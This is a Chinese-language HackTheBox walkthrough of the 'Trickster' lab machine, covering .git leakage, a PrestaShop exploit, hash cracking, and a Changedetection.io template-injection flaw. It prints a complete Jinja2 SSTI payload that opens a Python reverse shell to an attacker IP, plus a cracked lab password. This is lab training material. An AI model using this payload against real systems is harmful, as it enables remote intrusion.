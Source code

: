 ```yaml
---
title: "HTB-Trickster"
date: 2024-09-28
categories: 
  - "渗透测试"
tags: 
  - "hackthebox"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Git Hack

我在trickster的主域名发现了一个shop的子域名网站

![](./images/image-307.png)

这个shop看起来像是使用`PrestaShop`搭建，我搜索了一下相关的漏洞，无法直接使用

![](./images/image-308.png)

并且尝试了shop里的各种注入点，没有明显的漏洞，不过在我遍历目录的时候，发现了`.git`的目录

![](./images/image-310.png)

然后我使用`Githack`工具

\[github author="lijiejie" project="GitHack"\]\[/github\]

![](./images/image-311.png)

将这个目录作为url的路径，进入到了后台的登陆界面，并且得到PrestaShop的版本号为`8.1.5`

![](./images/image-312.png)

在之前的`.git`目录下我搜索到了一个`admin_pannel`，里面好像存在一个adam的用户

![](./images/image-313.png)

## CVE-2024-34716

\[github author="aelmokhtar" project="CVE-2024-34716"\]\[/github\]

![](./images/image-314.png)

得到`www-data`权限

在config里面找到一些信息

![](./images/image-315.png)

登录上mysql之后，在`ps_employee`表中发现james的密码hash

![](./images/image-316.png)

使用`hashcat`，破解除了james的密码：`alwaysandforever`

![](./images/image-317.png)

ssh登录上去，得到user.txt

![](./images/image-318.png)

## Privilege Escalation

上传`linpeas`，发现当前服务器运行着docker

![](./images/image-319.png)

上传`fscan`，发现`172.17.0.2`主机

\[github author="shadow1ng" project="fscan"\]\[/github\]

![](./images/image-320.png)

并且发现`5000`端口是打开的

![](./images/image-321.png)

将端口代理出来

![](./images/image-322.png)

进入到`Change Detection`

![](./images/image-323.png)

### CVE-2024-32651

相关知识：[CVE-2024-32651 –（Changedetection.io） – Hacktive 安全博客 (hacktivesecurity.com)](https://blog.hacktivesecurity.com/index.php/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io/)

首先在kali上打开httpserver服务，并且添加到change detection

![](./images/image-325.png)

![](./images/image-324.png)

进入Edit，确保URL、Time、Send notification

![](./images/image-326.png)

然后进入notification，在Body处写入SSTI反弹shell的脚本

```
{{ self.__init__.__globals__.__builtins__.__import__('os').system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.30",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'') }}
```

![](./images/image-327.png)

然后保存即可

此处SSTI的原理是，这个服务会探测网站的变化，如果网站内容有变化那么就会触发通知信息

而Body是允许使用Jinja2模板来写内容

![](./images/image-331.png)

在kali上面，由于打开了80端口的httpserver服务，只需要写入一个`index.html`，并且不断修改他直到被检测到就行了

![](./images/image-332.png)

成功反弹到shell，但是没有root.txt呢？应该只是一个容器

使用`history`命令发现到密码，因为`apt update`需要管理员权限才能执行

![](./images/image-333.png)

使用密码切换到root用户，得到root.txt

![](./images/image-334.png)

## Summary

Git文件泄露好久没遇到过，刚做的时候还没想到这个，去讨论区看了一下才发现

`PrestaShop`的`Github CVE`，在几天前是用不了的（不知道为什么），后来作者修改了一下又能正常使用了

`history`来查看密码泄露也是比较独特的点，之前也没想到
